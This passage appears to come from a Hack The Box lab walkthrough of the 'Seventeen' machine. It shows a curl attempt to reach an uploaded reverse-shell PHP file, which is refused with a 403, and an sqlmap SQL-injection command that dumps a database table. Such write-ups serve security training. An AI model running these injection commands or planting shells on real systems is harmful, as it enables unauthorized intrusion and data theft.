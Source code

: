 ```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ curl -v http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/rshell_9000.php 
* Host oldmanagement.seventeen.htb:8000 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.165
*   Trying 10.10.11.165:8000...
* Connected to oldmanagement.seventeen.htb (10.10.11.165) port 8000
* using HTTP/1.x
> GET /oldmanagement/files/31234/rshell_9000.php HTTP/1.1
> Host: oldmanagement.seventeen.htb:8000
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 403 Forbidden
< Date: Sun, 16 Mar 2025 09:36:23 GMT
< Server: Apache/2.4.38 (Debian)
< Content-Length: 18
< Content-Type: text/html; charset=iso-8859-1
< 
* Connection #0 to host oldmanagement.seventeen.htb left intact
<h1>Forbidden</h1>    
```

It seems that the server is blocking direct access to the files.
Let's keep that in our note, and move on.

Wait.... What about using SQLi again? There's another table `storage` in `db_sfms` database.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T storage --dump

...SNIP...

Database: db_sfms
Table: storage
[1 entry]
+----------+---------+----------------------+-----------------+----------------------+
| store_id | stud_no | filename             | file_type       | date_uploaded        |
+----------+---------+----------------------+-----------------+----------------------+
| 33       | 31234   | Marksheet-finals.pdf | application/pdf | 2020-01-26, 06:57 PM |
+----------+---------+----------------------+-----------------+----------------------+
```

However, there's only a single file which is not the one that I uploaded.
Maybe it stores newly uploaded files to somewhere else.

Let's move on to the new subdomain.

### http(8000) - mastermailer.seventeen.htb
